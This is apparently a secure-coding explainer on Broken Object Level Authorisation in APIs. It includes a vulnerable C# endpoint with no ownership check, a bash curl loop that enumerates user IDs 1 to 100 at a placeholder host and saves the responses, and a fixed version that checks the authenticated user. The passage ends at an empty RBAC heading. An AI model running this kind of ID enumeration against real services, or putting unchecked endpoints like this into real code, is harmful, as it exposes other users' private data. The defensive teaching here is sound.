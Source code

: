 # Broken Access Control

Broken Access Control or Broken Object Level Authorisation (BOLA) occurs when an API fails to enforce proper permissions for objects within its endpoints. BOLA allows attackers to manipulate object identifiers (such as IDs) to access and modify resources which they should not have access to. This is typically down to inadequate authorisation checks within an API.

An example of this may be allowing data to be retrieved by modifying parameters within a request or directly in a URL such as orderID, or attempting urls which you shouldn't have access too, but without sufficient checks HTML is supplied regardless.

In 2024 it was reported over 75% of API vulnerabilities were due to inadequate access control. 

## Bad Code C# Example

In an example API, an endpoint for getting reservations for a user only expects a non-encrypted id of the user and no checks are completed, allowing someone to obtain info they shouldn't be changing this ID within the request. 

```
public IActionResult GetReservations(string id) {

    //Fetch reservations for the current user
    var reservations = dbContext.Reservations
        .Where(r => r.UserId = id)
        .ToList();

    return OK(reservations);
}
```

At its worst, someone could brute force this API from 1 until it gets no results and obtain data on all users, resulting in a mass-scale data breach.

It is important to note an endpoint like this might be a POST or DELETE or anything to, accepting just an ID, or an ID and a string/json object, which would result in mass modification or deletion of data. Even with backups, an e-commerce site could lose an entire day's worth of orders or new accounts. Worse, it could damage customer trust and bring on fines.

This is a very simple attack to discover and exploit, so it is important to minimise these.

## Example Script to exploit

```
#!/bin/bash

# File to save the output
output_file="reservations.txt"

# Clear the output file before starting
> "$output_file"

# Loop through IDs 1 to 100
for id in {1..100}; do
  # Fetch the URL and append the output to the file
  url="https://example.com/users/${id}/reservations"
  echo "Fetching data for ID: $id from $url"
  
  # Use curl to access the URL and append the response to the file
  curl -s "$url" >> "$output_file"
  
  # Separate each user's response with a delimiter for readability
  echo -e "\n--- End of ID $id ---\n" >> "$output_file"
done

echo "All data has been saved to $output_file"
```

## How to mitigate Examples

Mitigating these exploits depends on the nature of the application, but in general it is the useage of policies and server-side checks to validate user permissions for each resource. It is best to be able to do this as close to the front-end as possible, e.g. Middleware, framework features to enforce checks globally.

Another is to not use any predictable ID within the endpoint parameters such as a users UserID, but to use a unique identifier which is a 128-bit number or 36 character string (For Example using NEWID() within a SQL Server backend to create a unique identifier). 

Below goes into further explanation of some additional mitigations

### Checking ids against context set during logins

In the below example, we retrieve the authenticated user ID from the HTTP context, and compare that to the id parameter provided in the request. If these do not match, then we can respond with a Forbidden Status and a message indicating unauthorized access.

Only after these checks do we complete the getting/modification/deletion of any data.

```
public IActionResult GetReservations(string id) {
    string currentUserId = HttpContext.User.Identity.Name; // Assume user ID is retrieved from the authenticated context

    // Ensure the logged-in user is authorized to access this data
    if (currentUserId != id) {
        return Forbid("Unauthorized access");
    }

    // Fetch reservations for the current user
    var reservations = dbContext.Reservations
        .Where(r => r.UserId == currentUserId)
        .ToList();

    return Ok(reservations);
}
```

## Role-Based Access Control (RBAC)

